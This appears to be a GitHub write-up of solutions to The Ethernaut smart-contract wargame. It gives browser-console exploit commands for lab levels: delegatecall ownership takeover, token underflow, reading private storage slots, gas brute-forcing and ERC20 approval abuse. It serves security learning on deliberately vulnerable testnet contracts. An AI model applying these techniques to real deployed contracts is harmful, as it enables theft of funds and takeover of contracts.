 # The Ethernaut

## Level 0: Hello Ethernaut

```JavaScript
await contract.info()                       // You will find what you need in info1().
await contract.info1()                      // Try info2(), but with "hello" as a parameter.
await contract.info2('hello')               // The property infoNum holds the number of the next info method to call.
(await contract.infoNum()).toString()       // 42
await contract.info42()                     // theMethodName is the name of the next method.
await contract.theMethodName()              // The method name is method7123949.
await contract.method7123949()              // If you know the password, submit it to authenticate().
const password = await contract.password()
contract.authenticate(password)
```

## Level 1: Fallback
```JavaScript
contract.contribute({ value: 1 })
contract.sendTransaction({ value: 1 })
contract.withdraw()
```

## Level 2: Fallout
```JavaScript
contract.Fal1out({ value: 1 })              // That's Fal-1-out... (o:
```

### Lesson Learned
Contract name must be equal to the constructor name.  Otherwise it will be publicly available for calling...

## Level 4: Telephone
### Lesson Learned
Reference: https://ethereum.stackexchange.com/questions/1891/whats-the-difference-between-msg-sender-and-tx-origin

In a sample call chain `A -> B -> C -> D`, inside D:
`msg.sender` = C (can be a contract)
`tx.origin` = A (must be an entity)

## Level 5: Token
```JavaScript
contract.transfer("0x0", 21)
```

## Level 6: Delegation
```JavaScript
contract.sendTransaction({ data: '0xdd365b8b' })
/*
 bytes4(keccak256('pwn()'))
 = bytes4(0xdd365b8b15d5d78ec041b851b68c8b985bee78bee0b87c4acf261024d8beabab)
 = 0xdd365b8b
 
 By calling the delegate "pwn()", the owner can be changed.
 */
```

## Level 8: Vault
```JavaScript
// Obtain the password
web3.eth.getStorageAt(contract.address, 1, (err, res) => {
  contract.unlock(res)
})
```

## Level 9: King

_TODO_

## Level 10: Re-entrancy

_TODO_

## Level 11: Elevator

Executing `ElevatorExploit.attack()` with different values of gas.  Steps 270 and 441 in VM trace is the operation to obtain `msg.gas` for determining `isLastFloor`.

1.  https://ropsten.etherscan.io/vmtrace?txhash=0xbc803aa91687e2746953b323f5d20bf45c6292a0b802af6955bdd5dcf99cf69d (total gas = 60000, floor = 1337)
    `msg.gas = 26424`.  We set `floor = 316` so that `(msg.gas + floor) % 1337 = 26740 % 1337 = 0`.
2.  https://ropsten.etherscan.io/vmtrace?txhash=0x11308f9a9699924a66624800d75bd80183f0de500092b4204067a9f8d9c4c2dd (total gas = 60000, floor = 316)
    Done.

## Level 12: Privacy

```JavaScript
web3.eth.getStorageAt(contract.address, 0, (err, res) => {
  alert(res)
})

//                                                                   ID
//                                                                 fl..attening
//                                                               de....nomination
//                                                           awkw......ardness
// > 0x0000000000000000000000000000000000000000000000000000005bb1ff0a01

web3.eth.getStorageAt(contract.address, 1, (err, res) => {
  alert(res)
})

//   data[0]
// > 0x55a025286f42846feb0cc561e3c9ab2192b6243b8fca1e2391e82b380025e742

web3.eth.getStorageAt(contract.address, 2, (err, res) => {
  alert(res)
})

//   data[1]
// > 0xdeb01339f4e2fa86210aa2b46a0f7f178dc305f4cb477a0caa0fc33f0ce04120

web3.eth.getStorageAt(contract.address, 3, (err, res) => {
  alert(res)
})

//   data[2]
// > 0x8f04ad8b567a647e628d2adcefb3d9ab58753533c0df20a3c56db16b258bf761

web3.eth.getStorageAt(contract.address, 4, (err, res) => {
  alert(res)
})

// > 0x0000000000000000000000000000000000000000000000000000000000000000

(await contract.ID()).toString(10)
// > 1534509758

contract.unlock('0x8f04ad8b567a647e628d2adcefb3d9ab')
```

## Level 13: Gatekeeper One

Executing `GatekeeperOneExploit.attack()` with different values of gas.  Step 167 in VM trace is the operation to obtain `msg.gas` for `msg.gas % 8191 == 0`.

1.  https://ropsten.etherscan.io/vmtrace?txhash=0x4beb2c697043c4d53c8cc0c04acd28f275f67d53c01ed99f618479f951e556cc (total gas = 100000)
    Seeing that `msg.gas = 75359` (the opcode `GAS` gets the amount of available gas *including* the reduction), we add it by 6551 so that `msg.gas` is divisible by 8191.
2.  https://ropsten.etherscan.io/vmtrace?txhash=0x270775bec32de6d234ff82067abdb98070bf6bae61d0bdd43a693d8b66909855 (total gas = 106551)
    `msg.gas = 81808` now.  Add the gas by 102 this time.
3.  https://ropsten.etherscan.io/vmtrace?txhash=0x65cc02403217edebd4cb742c10d50cdf7012a080f50d65c2c2c66a2ff32a63c4 (total gas = 106653)
    `msg.gas = 81908` now.  Add the gas by 2.
4.  https://ropsten.etherscan.io/vmtrace?txhash=0xd09a061d1e034a962f06a637a62699c9238bb3d56fd8f85ce31d1561e77312e5 (total gas = 106655)
    Done!

## Level 14: Gatekeeper Two

* `gateOne` requires the function to be called from a **contract**.
* `gateTwo` requires the function to be called from a **non-contract** or a **contract constructor**.

In short, the function should be called from a contract constructor.

## Level 15: Naught Coin
```JavaScript
contract.increaseApproval("0x4d0c516b5175a23d0f413e54622401202b8d7cc0", "1000000000000000000000000")
# Then execute NaughtCoinExploit.attack()
```

### Lesson Learned
Don't forget that one could approve someone to spend the token instead of oneself in ERC20 - check the unlocked balance instead of the total balance.

## Level 16: Preservation

_TODO_

## Level 17: Locked

_TODO_

## Level 18: Recovery

Transaction for deploying instance: https://ropsten.etherscan.io/tx/0xe6913b87b4f1e2eb0ee64dcad96276d741536561387de67f1edf13e19fca83d4

* Check the address for `SimpleToken` (where the 0.5 ETH is sent to): `0xcd8fee146597cadca0bc84482689e65342d8beb5`
```JavaScript
web3.eth.sendTransaction({
  to: '0xcd8fee146597cadca0bc84482689e65342d8beb5',
  data: '0x00f55d9d000000000000000000000000bce00fd336be3be338458e93efc80da14f8a3e05'
}, (err, res) => alert(res))
```